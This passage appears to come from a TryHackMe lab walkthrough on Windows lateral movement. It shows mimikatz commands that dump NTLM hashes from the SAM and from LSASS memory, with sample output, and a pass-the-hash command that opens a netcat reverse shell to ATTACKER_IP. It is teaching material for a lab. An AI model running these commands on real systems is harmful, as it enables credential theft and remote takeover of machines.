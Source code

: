 To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory.

#### Extracting NTLM hashes from local SAM:

This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

THMJMP2: Powershell:
```
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

#### Extracting NTLM hashes from LSASS memory:

This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

THMJMP2: Powershell:
```
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:

```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. 

